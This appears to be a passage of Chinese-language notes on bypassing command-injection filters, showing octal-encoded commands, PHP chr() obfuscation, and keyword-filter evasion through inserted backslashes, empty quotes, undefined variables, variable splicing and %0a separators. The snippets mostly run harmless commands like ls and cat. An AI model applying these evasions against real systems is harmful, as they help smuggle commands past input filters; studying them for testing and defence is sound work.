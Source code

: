   ```php
  # php传参时的格式
  $(printf "\154\163")
  $(echo "\154\163")
  ```

   - 进制转换

   ```shell
  ┌──(khaz㉿kali)-[~/桌面]
  └─$ echo $((2#111))
  7
   ```

   

### php绕过

php花样就多了😋

```shell
php -r 'system(chr(108).chr(115))'
```





### 绕过关键字过滤

1. 插入\

   ```shell
   cat = ca\t = c\at = \cat
   ```

2. 插入空字符

   ```shell
   ls = l''s = l""s = l's' = l"s" （只要插入成对的单双引号就可以）
   = l$1s = l${asdfa}s = l``s =  l$(``)s  =  l$('')s = l$("")s
   ```

   > $1~$9为脚本参数
   >
   > ${xx}代表变量值,只要xx没有定义即可
   >
   > 内敛执行空命令

3. 变量拼接

   ```shell
   a=c;b=at;$a$b file
   ```

   > 如果；被过滤，可以用%0a或者&&（需要url编码）代替

4. 其他命令代替

5. 文件名用通配符


